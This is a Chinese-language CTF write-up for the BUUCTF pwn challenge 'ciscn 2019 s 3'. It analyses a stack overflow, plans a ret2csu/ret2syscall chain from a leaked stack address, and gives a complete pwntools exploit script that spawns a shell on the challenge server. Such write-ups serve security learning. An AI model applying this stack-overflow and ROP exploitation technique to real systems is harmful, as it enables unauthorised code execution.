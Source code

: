 ```yaml
---
author: 
  name: Zephyr
title: ciscn 2019 s 3
date: 2022-3-24 12:17:03
permalink: /pages/2e1547494524d197
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# ciscn 2019 s 3

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/ciscn_2019_s_3/ciscn_s_3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  return vuln();
}
```

vuln函数如下

```c
signed __int64 vuln()
{
  signed __int64 result; // rax

  __asm { syscall; LINUX - sys_read }
  result = 1LL;
  __asm { syscall; LINUX - sys_write }
  return result;
}
```

gadgets函数汇编代码及程序表如下

![ciscn_2019_s_3_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/ciscn_2019_s_3_1.png)

## 思路分析

1. 目前信息：
   - `vuln`函数可溢出
   - 无`system`无`/bin/sh`
   - `gadgets`内有`execv`调用号`0x3b`
   - No PIE
2. 思路：
   - 考虑`ret2syscall`做法，`vuln`函数除了可溢出外，在打印的`0x20`到`0x28`处将会泄漏一个栈上地址，减去相对偏移可以得到一开始写入数据的起始地址，在该地址内写入`/bin/sh\x00`，利用`ret2csu`，为`execv("/bin/sh",0,0)`，依次将寄存器赋值后，调用`syscall`获得`shell`

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/ciscn_2019_s_3/ciscn_s_3'
io=remote('node4.buuoj.cn',26437)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x10
vuln_addr = elf.symbols['vuln']
payload = b'/bin/sh\x00'.ljust(padding, b'\x00')
payload += flat([vuln_addr])
io.send(payload)
io.recv(0x20)
leak_buf_stack_addr = u64(io.recv(8))-0x118
success('binsh_addr:'+hex(leak_buf_stack_addr))
io.recv()
pop_rdi_ret=0x4005a3
csu_end = 0x040059A    # pop rbx rbp r12 r13 r14 r15
csu_front = 0x0400580
execv = 0x04004E2
syscall = 0x0400501
payload = b'/bin/sh\x00'.ljust(padding, b'a')
payload += flat([csu_end,0,0,leak_buf_stack_addr+0x50,0,0,0,csu_front])
# leak_buf_stack_addr+0x50将是call的地址 直接将程序流劫持到下面(0x50为前面写入的数据长度共十个栈帧)
payload += flat([pop_rdi_ret,leak_buf_stack_addr,execv,syscall])
io.send(payload)
io.interactive()
```